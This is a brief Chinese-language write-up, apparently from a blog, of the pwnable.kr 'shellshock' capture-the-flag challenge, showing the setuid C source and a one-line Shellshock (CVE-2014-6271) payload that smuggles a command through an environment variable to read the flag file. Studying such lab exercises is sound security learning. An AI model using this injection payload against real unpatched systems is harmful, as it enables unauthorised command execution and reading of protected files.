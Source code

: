 ```yaml
---
title: 'pwnable.kr #shellshock'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-07-27 20:50:01
categories:
	- Writeups
	- pwnable.kr
thumbnailImage: pwnablekr.jpg
keywords:
    - pwnable.kr
    - Toddler's Bottle
    - shellshock
tags:
    - Writeups
---
```

Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)
<!-- more -->

看到題目標題已經有頭緒了，是bash shellshock漏洞的題目，進到題目主機後查看原始碼：
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

果然是得利用Shellshock來構造payload，Shellshock的payload非常簡單：
```sh
$ env a='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

Shellshock的細節可以參考 [維基百科](https://goo.gl/vvW9xM)